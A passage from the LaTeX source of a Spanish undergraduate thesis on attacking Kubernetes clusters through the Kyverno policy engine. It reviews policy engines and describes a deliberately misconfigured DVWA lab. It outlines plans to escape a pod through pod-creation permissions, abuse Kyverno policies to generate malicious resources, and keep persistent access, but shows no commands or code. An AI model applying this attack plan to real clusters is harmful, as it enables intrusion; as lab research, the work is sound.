Todo ello hace de Kyverno una solución completa para el ciclo de vida de las políticas: desde la definición y prueba hasta la implementación, monitorización y gestión de excepciones (pues también permite definir excepciones puntuales a políticas cuando sea necesario, de forma controlada).

La importancia de Kyverno en entornos Kubernetes quedó manifiesta cuando el proyecto fue acogido por la CNCF en 2020, alcanzando el estatus de Incubation en 2022, lo que refleja su madurez y amplio uso comunitario. Desde entonces, Kyverno ha experimentado un fuerte crecimiento en contribuciones y descargas, con cientos de políticas publicadas para usar, desarrolladas por la comunidad. Según sus creadores, “a medida que crece la adopción de Kubernetes, las políticas se han vuelto críticas para asegurar la seguridad, el gobierno y el cumplimiento”; de hecho, organizaciones de sectores como finanzas, salud, energía y telecomunicaciones ya utilizan Kyverno para imponer guías de seguridad (guardrails) y proteger la cadena de suministro de Kubernetes. Al integrarse de forma transparente con herramientas nativas (kubectl, kustomize, Git) y seguir los patrones habituales de Kubernetes, Kyverno facilita que tanto desarrolladores, operadores y equipos de seguridad colaboren en definir una postura de seguridad coherente para el clúster.

\section{Estructura del documento}

El presente Trabajo Fin de Grado se ha estructurado teniendo en cuenta las diferentes fases seguidas durante el desarrollo del mismo.

En primer lugar, en \nameref{chap:estadoarte} se pone en contexto al lector sobre el estado actual de la ciberseguridad en la computación en la nube, repasando los principales trabajos previos que se han desarrollado en el ámbito de la investigación sobre este tipo de ciberataques. A continuación, en 
\nameref{chap:descinformatica} se explican los aspectos relativos a su realización y se definen los objetivos que se esperan conseguir mediante el desarrollo de este proyecto. En \nameref{chap:descataque} se describen los diferentes tipos de ataque que se han llevado a cabo, junto con el análisis de los resultados obtenidos en cada uno de ellos y la efectividad alcanzada, reflejados en \nameref{chap:resultados}, donde también se incluyen diversas mitigaciones para prevenir las acciones realizadas. Finalmente, en \nameref{chap:conclusiones} se hace una reflexión sobre los resultados extraídos del proyecto y se muestran las posibles líneas de trabajo futuro derivadas de este.






% \afterpage{\blankpage} % puede generar problema en índice de contenidos
\newpage







% Capítulo 2
\chapter{Estado del arte}\label{chap:estadoarte}


\section{Ciberseguridad en la nube}

En los últimos años se ha acelerado la adopción de servicios en la nube en el ámbito empresarial, lo que ha elevado la importancia de la ciberseguridad en la nube. Tan solo en 2023, el gasto mundial en nube pública creció alrededor de un 20\%, superando previsiones previas \cite{csa2023top}. Este auge implica que una proporción cada vez mayor de datos y operaciones críticas residan en entornos de nube, haciendo vital garantizar su seguridad para mantener la confidencialidad, integridad y disponibilidad de la información. 

\paragraph{Evolución reciente e importancia \\ \\}

La seguridad en la nube ha evolucionado de enfoques iniciales centrados en proteger la infraestructura del proveedor, hacia una visión integral que abarca la configuración segura de los servicios \textit{cloud} por parte del cliente. El modelo de responsabilidad compartida establece que el proveedor \textit{cloud} asegura la infraestructura subyacente, mientras que el cliente debe proteger sus datos y configuraciones. En la práctica, este modelo ha generado desafíos: muchas brechas de seguridad provienen de errores de configuración o uso indebido por parte del cliente, más que de fallos en el proveedor. Así, la atención se ha desplazado a asegurar el entorno \textit{cloud} de punta a punta, combinando medidas técnicas y buenas prácticas organizativas.

\paragraph{Principales amenazas \\ \\}

La computación en la nube es susceptible a numerosas amenazas de ciberseguridad. Entre las más relevantes se encuentran \cite{ahmadi2024cloud}:

\begin{itemize}
\item \textbf{Brechas o filtraciones de datos:} accesos no autorizados o robo de datos sensibles almacenados en la nube, con graves consecuencias financieras y de reputación. Es una de las amenazas más reportadas en el entorno \textit{cloud}.

\item \textbf{Secuestro de cuentas y credenciales:} los atacantes pueden comprometer cuentas de administradores o usuarios (por ejemplo, mediante phishing o malware), obteniendo accesos con los máximos privilegios en el entorno \textit{cloud}. El \textbf{account hijacking} ha sido destacado como un riesgo crítico, ya que la pérdida de credenciales permite al atacante controlar recursos y datos.

\item \textbf{Ataques de denegación de servicio (DDoS):} sobrecargan servicios en la nube con tráfico malicioso, volviéndolos inaccesibles para usuarios legítimos. Los ataques DDoS hacia aplicaciones \textit{cloud} pueden interrumpir operaciones y requieren contramedidas de elasticidad y filtrado de tráfico.

\item \textbf{Malware y vulnerabilidades no parcheadas:} las cargas de trabajo en la nube pueden sufrir las mismas vulnerabilidades de software que cualquier sistema. Si no se aplican parches de seguridad o se configuran controles adecuados, los atacantes pueden explotar fallos conocidos para penetrar sistemas \textit{cloud}. Asimismo, la introducción de malware a través de máquinas virtuales o contenedores comprometidos es una amenaza latente.

\item \textbf{Amenazas internas y errores de configuración:} empleados malintencionados o descuidados pueden abusar de accesos legítimos (\textit{insider threats}), y configuraciones erróneas de servicios (como almacenar datos sin cifrar en buckets públicos) son causas frecuentes de incidentes. De hecho, la mala configuración de los sistemas se reconoce como factor en la mayoría de brechas \textit{cloud}, exponiendo interfaces y recursos a Internet de manera inadvertida.
\end{itemize}

Estas amenazas ponen de manifiesto la obligación de las organizaciones para reforzar tanto las medidas técnicas (cifrado de datos, gestión de identidades, monitorización continua, etc.) como la concienciación y formación del personal, para reducir errores humanos.

\paragraph{Retos actuales \\ \\}

Además de las amenazas directas, la seguridad \textit{cloud} enfrenta retos estratégicos y operativos. Uno de los más citados es la falta de visibilidad y control en entornos multinube e híbridos. Las empresas suelen distribuir cargas de trabajo entre múltiples proveedores (AWS, Azure, GCP, etc.) y centros de datos propios, lo que dificulta tener una visión unificada de la postura de seguridad. Garantizar el cumplimiento normativo en la nube es otro desafío, ya que las organizaciones deben alinear configuraciones y procesos con estándares (ISO 27017, CSA CCM) y leyes de protección de datos en jurisdicciones diversas, todo ello en un entorno altamente dinámico. Asimismo, la escasez de expertos en seguridad \textit{cloud} agrava el problema – los equipos de ciberseguridad tradicionales deben adquirir nuevas habilidades \textit{cloud}, pues simplemente trasladar controles on-premise a la nube resulta insuficiente.

Para afrontar estos retos, la industria promueve enfoques como la seguridad desde el diseño y automatización (DevSecOps) y modelos de confianza cero (Zero Trust). También se adoptan herramientas especializadas: por ejemplo, sistemas de SIEM en la nube para monitorizar eventos de seguridad en tiempo real, y plataformas de gestión de postura de seguridad \textit{cloud} (CSPM), que detectan configuraciones inadecuadas \cite{li2024cloud}. En resumen, la ciberseguridad en la nube se ha vuelto un esfuerzo continuo que combina tecnología, procesos y personas, adaptándose constantemente a la evolución de las amenazas.


\section{Literatura sobre motores de políticas en Kubernetes}

En el ecosistema \textit{cloud-native}, Kubernetes se ha consolidado como la plataforma dominante de orquestación de contenedores. Garantizar la seguridad y gobernanza en Kubernetes exige controlar qué configuraciones y recursos se despliegan en el clúster, respetando políticas corporativas y mejores prácticas. Esto ha dado lugar en la última década al desarrollo de motores de políticas especializados para Kubernetes, en línea con el paradigma Policy as Code (políticas definidas como código). A continuación, se presenta una revisión temática y cronológica (2015–2025) de la literatura y avances principales en este campo, enfocando en tres proyectos clave: Open Policy Agent (OPA), Gatekeeper y Kyverno. 

\paragraph{Primeros enfoques (2015–2018) \\ \\}
En los años iniciales de Kubernetes, el control de políticas de seguridad se limitaba a mecanismos nativos relativamente básicos. Kubernetes incorporó Políticas de Seguridad de Pods (PodSecurityPolicy, PSP) como característica para restringir las operaciones de Pods (p. ej., evitar contenedores privilegiados). Sin embargo, las PSP presentaban limitaciones: solo aplicaban a Pods, no permitían acciones más allá de negar despliegues, y su gestión resultaba poco flexible. Ante el rápido crecimiento de Kubernetes, surgió la necesidad de una solución más genérica y programable para políticas. En 2016, ingenieros de Styra Inc. crearon Open Policy Agent (OPA), un motor de políticas de propósito general diseñado para unificar la definición y enforcement de políticas en diversos sistemas \textit{cloud-native} \cite{castro2024policy}. OPA introdujo un lenguaje declarativo específico llamado Rego para expresar reglas sobre datos estructurados (JSON/YAML) de forma consistente. El proyecto ganó tracción rápidamente: en 2018 OPA fue donado a la CNCF (Cloud Native Computing Foundation) y, tras demostrar adopción, alcanzó el estatus de proyecto graduado en 2021. La graduación en CNCF indica que OPA se volvió estable y ampliamente adoptado, consolidándose como un estándar emergente en Policy as Code. De hecho, OPA empezó a emplearse no solo en Kubernetes, sino también integrándose con herramientas como Terraform (infraestructura como código), plataformas de API Gateway/Service Mesh (e.g. Envoy) y más, evidenciando su versatilidad más allá de Kubernetes.

\paragraph{Integración con Kubernetes-OPA/Gatekeeper (2019–2020) \\ \\}

Para aplicar OPA eficazmente dentro de Kubernetes, se requería una integración nativa en el proceso de admisión de recursos del clúster. En 2019, un grupo colaborativo de desarrolladores de Microsoft, Google, Red Hat y Styra presentó OPA Gatekeeper \cite{zhang2019gatekeeper}. Gatekeeper actúa como un controlador de admisión validante que intercepta cada solicitud de creación/actualización de objetos en Kubernetes, evaluándola contra las políticas definidas en OPA. A diferencia de las PSP (basadas en configuraciones estáticas), Gatekeeper permitió personalizar políticas mediante configuración declarativa, separando las decisiones de políticas del código del API server. En su evolución, Gatekeeper introdujo la noción de plantillas de restricciones (constraint templates), representadas como CRDs (Custom Resource Definitions) en Kubernetes, donde los operadores pueden definir políticas Rego reutilizables y luego instanciar restricciones concretas a partir de ellas. Para 2020, OPA + Gatekeeper ya ofrecían un marco robusto de governance en Kubernetes, soportando validación de configuraciones (p. ej., “ningún Pod puede ejecutarse sin límites de CPU/memoria”) e incluso comenzando a incorporar mutación automática de recursos. La literatura técnica de este período resalta que OPA/Gatekeeper habilitó políticas contextuales y granulares en Kubernetes, integrando la seguridad en el ciclo de vida DevOps (shift-left security). Vakhula y Opirskyy (2024) \cite{vakhula2024security} describen la implementación de “Seguridad como Código” en clústeres Kubernetes precisamente mediante OPA y Gatekeeper, demostrando que esta combinación permite un enforcement consistente de políticas desde el despliegue hasta producción. En resumen, hacia 2020 OPA Gatekeeper se había posicionado como la solución de referencia para policy enforcement en Kubernetes, llenando el vacío dejado por las limitaciones de PSP.


\paragraph{Aparición de Kyverno y alternativas nativas (2020–2025) \\ \\}

Si bien OPA/Gatekeeper aportó flexibilidad, también introdujo complejidad al requerir el lenguaje Rego y operarlo externamente a Kubernetes. En 2019 surge Kyverno, un motor de políticas creado por la empresa Nirmata con un enfoque distinto: ser Kubernetes-nativo, operando mediante políticas definidas en YAML (esquemas familiares para los usuarios de Kubernetes) en lugar de un lenguaje nuevo. Kyverno fue diseñado exclusivamente para Kubernetes y se integró como un controlador dentro del clúster, utilizando CRDs para definir Policies y Rules. Esto permite a los administradores expresar reglas de validación, mutación e incluso generación automática de recursos Kubernetes de manera declarativa, aprovechando la estructura y el ecosistema nativo de Kubernetes. Kyverno alcanzó madurez rápidamente: en 2020 fue aceptado en CNCF (como sandbox) y en 2022 progresó a proyecto incubado, reflejando el crecimiento de su comunidad. Tanto OPA como Kyverno son hoy soluciones open-source activamente mantenidas, con apoyo de CNCF, lo que evidencia la importancia estratégica de los motores de políticas en la seguridad cloud-native. 

Varios trabajos técnicos y académicos recientes comparan las virtudes de OPA/Gatekeeper contra Kyverno, destacando Chip Zoller en 2022 \cite{zoller2022kyverno}. Ambos enfoques permiten implementar políticas declarativas para Kubernetes, pero presentan diferencias significativas. OPA (con Gatekeeper) ofrece mayor generalidad: al ser un motor de propósito general, el mismo conjunto de políticas puede aplicarse en distintas capas (Kubernetes, microservicios, CI/CD, etc.), y su lenguaje Rego posibilita expresar lógicas complejas de control. Sin embargo, esta potencia conlleva una curva de aprendizaje considerable – Gatekeeper requiere conocer Rego y manejar plantillas, lo que puede añadir deuda técnica y complejidad en entornos corporativos. Además, Gatekeeper inicialmente se centró solo en validación (permitir o denegar objetos), incorporando la mutación de forma limitada en versiones más recientes, y no posee funcionalidad nativa para generar nuevos recursos. Por el contrario, Kyverno se distingue por su facilidad de uso: no obliga a los usuarios a programar en un lenguaje nuevo, ya que las políticas se formulan en YAML siguiendo la sintaxis de Kubernetes, lo que reduce la barrera de adopción. Kyverno también sobresale en capacidades avanzadas dentro de Kubernetes, al soportar desde el inicio mutación de configuraciones en tiempo de admisión y generación automática de objetos (por ejemplo, crear un ConfigMap base si no existe), algo que OPA/Gatekeeper no realiza de forma nativa. Como aspecto negativo, Kyverno se limita al ámbito de Kubernetes – no es utilizable como motor de políticas en otras aplicaciones o plataformas, a diferencia de OPA que sí lo es. En cuanto a madurez, OPA/Gatekeeper tienen algunos años más de desarrollo (OPA nació en 2016/2017, Gatekeeper en 2019), mientras Kyverno es más reciente (2019) pero ha mostrado un crecimiento acelerado en su comunidad y funcionalidades. En la práctica, ambas soluciones coexisten y son a veces usadas de forma complementaria según las necesidades: organizaciones con fuertes requerimientos multi-plataforma pueden optar por OPA, mientras que para usos basados puramente en Kubernetes con foco en simplicidad, Kyverno resulta muy atractivo.

En síntesis, la literatura de entre 2015 y 2025 muestra una evolución clara: se pasó de controles básicos y específicos (PSP) a motores de políticas sofisticados que permiten implementar la seguridad y cumplimiento normativo de forma declarativa y automatizada en Kubernetes. OPA/Gatekeeper y Kyverno representan hoy el estado del arte en esta materia. Su uso se ha vuelto una práctica recomendada dentro de la seguridad cloud-native, habilitando a las organizaciones a fortalecer la postura de seguridad de sus clústeres Kubernetes sin sacrificar agilidad. Continúa abierto el reto de mejorar la usabilidad y alcance de estas herramientas – por ejemplo, facilitando la creación de políticas para desarrolladores y ampliando el catálogo de políticas predefinidas. No obstante, queda patente que la gestión de políticas mediante motores dedicados se ha consolidado como un pilar fundamental de la ciberseguridad en entornos de nube y contenedores en la actualidad.

\section{Justificación de la elección de Kyverno frente a OPA/Gatekeeper}

A la luz de los sistemas analizados, resulta pertinente explicar por qué este trabajo opta por Kyverno como motor de políticas en Kubernetes en lugar de OPA/Gatekeeper. Si bien OPA con Gatekeeper se consolidó tempranamente como solución de policy-as-code en Kubernetes, también introdujo complejidad operativa al requerir el lenguaje Rego y componentes externos al plano de control de Kubernetes. Kyverno, en cambio, nace con un enfoque Kubernetes-nativo: las políticas se definen en formato YAML, integrándose como CRDs dentro del clúster y evitando lenguajes especializados\cite{zoller2022kyverno}. Esta diferencia fundamental reduce la curva de aprendizaje y la sobrecarga cognitiva. De hecho, diversas comparativas señalan que escribir políticas en Kyverno resulta más natural para equipos familiarizados con Kubernetes, mientras que Gatekeeper/OPA exige formación en Rego con la complejidad añadida que ello conlleva. Incluso en el ámbito académico se reconoce la sencillez de Kyverno: un estudio reciente de 2025 adopta la sintaxis de Kyverno por considerarla bien estructurada y familiar para los usuarios, resaltando que su popularidad facilita la adopción en la comunidad \cite{chen2025policyrule}. 

Además de la simplicidad técnica, Kyverno ofrece ventajas operativas y funcionales que refuerzan su elección. Una de ellas es la completitud de funcionalidades nativas: desde su diseño inicial Kyverno soporta no solo validación de configuraciones, sino también mutación automática y generación de recursos, todo mediante reglas declarativas sencillas. En contraste, Gatekeeper se enfocó originalmente solo en la validación (permitir o denegar objetos) e incorporó la mutación de manera limitada en versiones posteriores (mediante CRDs especiales como Assign), sin capacidad nativa de generar nuevos objetos en el clúster. Esto implica que con Kyverno es posible, por ejemplo, añadir configuraciones o etiquetas por defecto a recursos entrantes, o crear objetos complementarios (Configs, Secrets, NetworkPolicies, etc.) automáticamente para reforzar la seguridad, algo que OPA/Gatekeeper no realiza de forma integrada. Otra capacidad destacada de Kyverno es la verificación de imágenes de contenedor: el motor puede comprobar firmas criptográficas o attestations de las imágenes antes de su despliegue, bloqueando aquellas no confiables según políticas de suministro de software seguro. Lograr un nivel equivalente de validación de imágenes en Gatekeeper requeriría lógicas personalizadas y herramientas externas, ya que OPA no ofrece esa función de forma directa. En conjunto, estas características hacen de Kyverno una solución más completa en cuanto a enforcement de políticas dentro de Kubernetes. 

Desde el punto de vista operativo y de adopción por equipos, Kyverno también aporta beneficios significativos. Al emplear configuraciones YAML nativas, la gestión de políticas se integra fácilmente con prácticas DevOps existentes (p.ej., GitOps con ficheros YAML versionados) y con las herramientas estándar de Kubernetes (kubectl, client APIs), sin necesidad de traductores ni plantillas intermedias. Esto se traduce en facilidad de mantenimiento y menor resistencia por parte de los operadores: en la práctica, equipos de SRE y desarrolladores pueden comprender y escribir políticas Kyverno sin tener que dominar un lenguaje adicional, lo cual incentiva una mayor participación en la creación y revisión de políticas. Por el contrario, con Gatekeeper el uso de Rego a menudo queda relegado a unos pocos especialistas, aumentando la carga de trabajo y la deuda técnica en entornos corporativos. Otro aspecto operacional es la eficiencia y rendimiento. Estudios en entornos productivos han observado que Kyverno tiende a ser más ligero en consumo de recursos a medida que crece la complejidad y número de políticas, dado que no requiere sincronizar todo el estado del clúster en memoria para evaluaciones contextuales. Gatekeeper, al basarse en OPA, suele mantener un inventario en memoria de los objetos del cluster para ciertas políticas, lo que puede conllevar sobrecarga de memoria y latencia en escenarios complejos. De hecho, OPA alcanzó la graduación CNCF por su madurez, pero Kyverno –aunque más joven– ha demostrado un crecimiento acelerado desde su incubación CNCF en 2022, impulsado por una amplia adopción comunitaria y por cubrir las carencias que presentaban las PSP y otras soluciones previas. En síntesis, Kyverno equilibra un conjunto rico de funcionalidades con una usabilidad superior en Kubernetes, lo que reduce costos operativos y riesgos de errores de configuración al gestionar la seguridad. 

Un caso de uso real ilustra estas ventajas de forma concreta. En 2024, el equipo de plataforma de Adevinta (empresa del sector online marketplaces) decidió migrar su mecanismo de políticas de Gatekeeper (OPA) hacia Kyverno, tras identificar diversos beneficios prácticos \cite{adevinta2024}. Según su informe, la transición se motivó principalmente por la facilidad de escritura y mantenimiento de políticas – al usar YAML en lugar de Rego, más ingenieros pudieron colaborar en definir reglas de seguridad – y por la mayor cobertura de características – Kyverno permitía implementar directamente políticas mutativas y otros casos que con Gatekeeper eran engorrosos o imposibles. Adicionalmente, reportaron mejoras en el rendimiento y uso de recursos del clúster al eliminar la necesidad de sincronizar inventarios de objetos en memoria, problema que habían enfrentado con OPA. En el ámbito académico también se encuentra respaldo a la superioridad de Kyverno en su nicho: por ejemplo, una investigación reciente sobre ciberseguridad en Kubernetes optó por basar su gestión de políticas en Kyverno precisamente por su simplicidad de uso y por alinearse mejor con la mentalidad declarativa de Kubernetes. Los autores destacan que muchas organizaciones ya están familiarizadas con la sintaxis de Kyverno, lo que facilita su adopción frente a alternativas más generales. Asimismo, Kyverno introduce mecanismos de control de excepciones más flexibles que su contraparte: dispone de un recurso dedicado PolicyException para exceptuar casos puntuales sin tener que deshabilitar ni modificar la política original. Esta capacidad de gestionar excepciones de forma desacoplada es especialmente útil en escenarios de “ruptura de cristal” (break-glass) o necesidades temporales, permitiendo conceder pases excepcionales a ciertos recursos sin comprometer el cumplimiento general de las normas. En Gatekeeper, lograr algo similar requiere incorporar condiciones de exclusión dentro de las propias reglas Rego o instancias de Constraint, lo cual es menos flexible y más propenso a errores operativos.

En definitiva, al comparar ambas soluciones, se aprecia que Kyverno ofrece un enfoque más orientado a Kubernetes que simplifica la adopción de políticas y amplía las capacidades disponibles de forma nativa. Para un trabajo enfocado en seguridad ofensiva dentro de Kubernetes, estas ventajas se traducen en una implementación más ágil, con políticas declarativas fáciles de mantener y extender, y con un alcance funcional mayor (incluyendo mutaciones, generación de recursos y verificaciones de integridad) sin añadir complejidad innecesaria. Por estas razones, Kyverno es la opción elegida como base tecnológica en este proyecto, garantizando un equilibrio óptimo entre rigor en el enforcement de seguridad y operatividad en entornos reales.

En la tabla \ref{tab:kyverno-better} se resumen las principales funcionalidades ofrecidas por OPA/Gatekeeper frente a Kyverno, evidenciando las diferencias mencionadas:

\begin{table}[htbp]
\centering
\small
\caption{Comparativa funcional entre OPA/Gatekeeper y Kyverno}
\label{tab:kyverno-better}
\begin{tabular}{@{}p{4.2cm}p{5.3cm}p{5.3cm}@{}}
\toprule
\textbf{Funcionalidad} & \textbf{OPA/Gatekeeper} & \textbf{Kyverno} \\ \midrule
\textbf{Validación de recursos} & Sí, mediante reglas Rego (`Constraint` y `ConstraintTemplate`) & Sí, con reglas declarativas `validate` en YAML \\[0.2cm]
\textbf{Mutación automática} & Parcial, mediante CRDs como `Assign` y `AssignMetadata` & Soporte completo con reglas `mutate` nativas \\[0.2cm]
\textbf{Generación de recursos} & No soportado de forma nativa & Soporte completo con reglas `generate` para crear objetos \\[0.2cm]
\textbf{Verificación de imágenes} & No disponible directamente; requiere herramientas externas & Soportado mediante reglas `verifyImage` para firmas y attestations \\[0.2cm]
\textbf{Gestión de excepciones} & Sin recurso dedicado; requiere lógica condicional en Rego & Soportado mediante el recurso `PolicyException` \\[0.2cm]
\textbf{Lenguaje de políticas} & Rego (específico y con curva de aprendizaje) & YAML (estructura estándar de Kubernetes) \\[0.2cm]
\textbf{Facilidad de adopción} & Requiere conocimientos previos de Rego y plantillas personalizadas & Alta; fácil de entender y mantener por equipos DevOps \\[0.2cm]
\textbf{Alcance fuera de Kubernetes} & Sí, puede aplicarse en CI/CD, microservicios, infraestructura general & No, limitado exclusivamente a clústeres Kubernetes \\ \bottomrule
\end{tabular}
\end{table}


%\blankpage






% Capítulo 3
\chapter{Descripción informática}\label{chap:descinformatica}
\label{chap:contenidos}

En este capítulo se detallan los objetivos que se buscan alcanzar en el desarrollo de este proyecto, las herramientas necesarias para poder llevarlo a cabo y una descripción de cómo se ha preparado el laboratorio para simular un entorno real de Kubernetes. También se realizará un análisis de riesgos sobre el entorno creado usando la metodología STRIDE.

\section{Objetivos} \label{chap:objetivos}

Los objetivos generales que se plantean alcanzar en el transcurso de este proyecto son los siguientes:

\begin{itemize}

\item Simular un ataque desde una máquina externa a una red interna con un clúster de Kubernetes.

\item Reforzar y ampliar los conocimientos en Kubernetes, configurando desde cero un sistema funcional.

\item Realizar un análisis de riesgos completo con la metodología STRIDE, para luego poder explotarlos durante el ataque, sirviendo de guía a seguir.

\item Tener un primer acercamiento en el campo de la investigación de la seguridad informática.

\end{itemize}

En paralelo, los objetivos específicos que se esperan conseguir son:

\begin{itemize}

\item Aprender a integrar Kyverno en un sistema con Kubernetes.

\item Realizar un reconocimiento en una máquina externa que permite identificar que el sistema está utilizando Kubernetes; una vez identificado Kubernetes, explorar si cuenta también con Kyverno.

\item Explotar el uso de Kyverno de forma ofensiva en un sistema de Kubernetes. Se busca llevar a cabo un ataque completo, con el objetivo de no solo generar un acceso no autorizado al sistema, sino también una persistencia que permita mantener el acceso en el sistema durante un tiempo prolongado.

\end{itemize}


\section{Herramientas de trabajo}

Para la elaboración de este Trabajo Fin de Grado se ha hecho uso de un amplio
abanico de herramientas, las cuales han hecho posible el desarrollo de este proyecto de manera satisfactoria.

Overleaf ha sido la herramienta principal utilizada para el desarrollo de este documento, ya que es un editor en la nube de \LaTeX \footnote{\url{https://www.latex-project.org/about}}, software libre distribuido bajo la licencia LPPL (\LaTeX Project Public License).

Para poder simular la existencia de diferentes máquinas, se ha utilizado el programa de virtualización Oracle VirtualBox \footnote{\url{https://www.virtualbox.org/wiki/Licensing_FAQ}}, software libre distribuido bajo la licencia PUEL (VirtualBox Extension Pack Personal Use and Educational License). Poder tener diferentes servicios virtualizados es clave para poder realizar un trabajo como este, ya que montar diferentes máquinas supondría un coste que no permitiría hacer este tipo de investigaciones.

Como máquina servidor que aloja el clúster de Kubernetes, se ha utilizado la distribución de Linux Ubuntu\footnote{\url{https://ubuntu.com}}, basada en Debian, en su versión 24.04.2 LTS, que es un software libre. Como máquina atacante, se ha utilizado la distribución ofensiva Kali Linux\footnote{\url{https://www.kali.org}}, también basada en Debian, en su versión 2023.3, de software libre.

Para la gestión del clúster de Kubernetes, se ha utilizado la herramienta Minikube \footnote{\url{https://minikube.sigs.k8s.io/docs/}}, de código abierto , que permite ejecutar un clúster local de Kubernetes en una máquina local sin necesidad de desplegar un clúster completo en la nube o en múltiples servidores. Para comunicarse con el clúster local de Kubernetes, se ha utilizado la herramienta de consola de comandos kubectl \footnote{\url{https://kubernetes.io/docs/tasks/tools/}}.

El lenguaje utilizado por Kubernetes para la creación de los diferentes elementos dentro del clúster ha sido YAML\footnote{\url{https://yaml.org/}}, el cual es ampliamente utilizado para la serialización de datos.

El clúster de Kubernetes contaba con el servicio DVWA\footnote{\url{https://github.com/digininja/DVWA}}(Damn Vulnerable Web Application) montado en él, el cual es una aplicación web de código abierto que cuenta con una gran variedad de vulnerabilidades. El objetivo de este servicio es ayudar a concienciar sobre la ciberseguridad y poder probar las principales vulnerabilidades que sufren los servicios web.

Por último, se ha creado un repositorio público de GitHub \footnote{\url{https://github.com/yisusrg05/TFG-Kyverno}} con todos los ficheros de tipo YAML utilizados tanto para la creación del entorno como para llevar a cabo el ataque.

\section{Descripción del entorno}

La realización de este Trabajo Fin de Grado es mayoritariamente de tipo práctico, por lo que se ha necesitado diseñar un laboratorio virtual reproducible que simula un clúster de Kubernetes mal configurado en términos de seguridad para llevar a cabo un análisis ofensivo de Kyverno.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.75\textwidth,clip=true]{laboratorio_kubernetes.png}
  \caption{Diseño laboratorio Kubernetes}
  \label{fig:laboratoriokubernetes}
\end{figure}

La estructura general del entorno, ilustrada en la figura \ref{fig:laboratoriokubernetes}, sería la siguiente:

\begin{itemize}
\item Minikube 1.35 en Ubuntu 24.04, con Kubernetes 1.28 y Kyverno 1.11.1.

\item Namespace dvwa para aislar los recursos de la aplicación vulnerable.

\item Base de datos MySQL 5.7 desplegada como Deployment, expuesta internamente por un Service.

\item Aplicación DVWA desplegada con variables de entorno configuradas para conectarse a la base de datos.

\item Exposición de DVWA a través de un Service de tipo NodePort en el puerto 30080, accesible desde la máquina atacante Kali.

\item Service Account de DVWA con permisos de creación de pods, aspecto que será explotado para poder escapar del pod.


\end{itemize}


\subsection{Deployment DVWA}

El archivo \nameref{lst:dvwa-deployment} contiene todos los recursos necesarios para desplegar la aplicación vulnerable DVWA junto con su base de datos MySQL. Las características a destacar son las siguientes:

\begin{itemize}
    \item Uso del namespace dvwa: Esta separación facilita la gestión de las políticas de Kyverno y permite un aislamiento lógico. También permite demostrar ataques a políticas específicas de un namespace.

    \item La base de datos MySQL cuenta con variables de entorno estáticas que simplifican la configuración, pero son inseguras y permiten demostrar ataques por credenciales hardcodeadas.

    \item DVWA:
        \begin{itemize}
            \item Imagen vulnerables/web-dvwa, diseñada explícitamente con vulnerabilidades conocidas.
            \item Expone el puerto 80 y se conecta a la base de datos vía variables de entorno.
            \item No se ejecuta a nivel de root, por lo que tiene permisos limitados.
        \end{itemize}

    \item Servicio NodePort: expone DVWA a la red externa por el puerto 30080, permitiendo que la máquina atacante Kali interactúe directamente con la aplicación vulnerable.
    \item Service Account DVWA: solo tiene permisos de creación de pods, estando limitadas el resto de las acciones.


\end{itemize}

\subsection{Motivación del diseño}

Este entorno reproduce un escenario ofensivo en condiciones controladas, destacando varios vectores:
\begin{itemize}
    \item \textbf{Configuración realista:} errores como credenciales hardcodeadas o bindings mal configurados son comunes en despliegues reales mal gestionados. En este caso, se va a aprovechar que la Service Account de Kyverno puede crear pods para poder escapar al nodo.
    \item \textbf{Uso ofensivo de Kyverno:} el laboratorio permite demostrar cómo Kyverno puede ser manipulado por un atacante interno para modificar las reglas existentes o aplicar políticas que generen recursos maliciosos.
    \item \textbf{Relevancia académica y práctica:} el entorno permite estudiar tanto la superficie de ataque como las capacidades de mitigación de Kyverno, aportando valor desde un enfoque ofensivo poco explorado en la literatura, como se ha podido demostrar en \nameref{chap:estadoarte}.
\end{itemize}

\section{Metodología STRIDE}

La metodología de análisis de riesgos STRIDE \footnote{\url{https://en.wikipedia.org/wiki/STRIDE_model}} se ha convertido en un estándar de facto en el \textit{threat modelling} de sistemas cloud porque ofrece un marco sistemático, y fácilmente memorizable, para responder a la pregunta clave en seguridad: «¿Qué puede salir mal en mi sistema?». Al clasificar las amenazas en seis categorías (Spoofing, Tampering, Repudiation, Information Disclosure, Denial of Service y Elevation of Privilege), STRIDE cubre las propiedades esenciales de la ciberseguridad (autenticación, integridad, no repudio, confidencialidad, disponibilidad y autorización) y permite mapear cada riesgo a controles concretos desde las fases tempranas de diseño. Esta visión encaja perfectamente con prácticas DevSecOps y marcos como NIST: integra la seguridad en el ciclo de vida del software, prioriza mitigaciones según impacto y facilita la comunicación entre desarrolladores, arquitectos y equipos de ciberseguridad. Por ello, aplicar STRIDE antes de desplegar un clúster Kubernetes con Kyverno, con su posterior validación mediante pruebas ofensivas, no solo refuerza la solidez técnica del proyecto, sino que demuestra una aproximación proactiva y rigurosa a la gestión de riesgos.

\subsection{Diagrama de Flujo de Datos (DFD)}

El paso inicial de un análisis de STRIDE es realizar el Diagrama de Flujo de Datos, visible en la figura \ref{fig:dfd_baseline}, que resalta los procesos, almacenamientos de datos y flujos del entorno. A raíz de este DFD, se podrán listar los riesgos del sistema usando la metodología STRIDE.

\begin{figure}[H]
  \centering
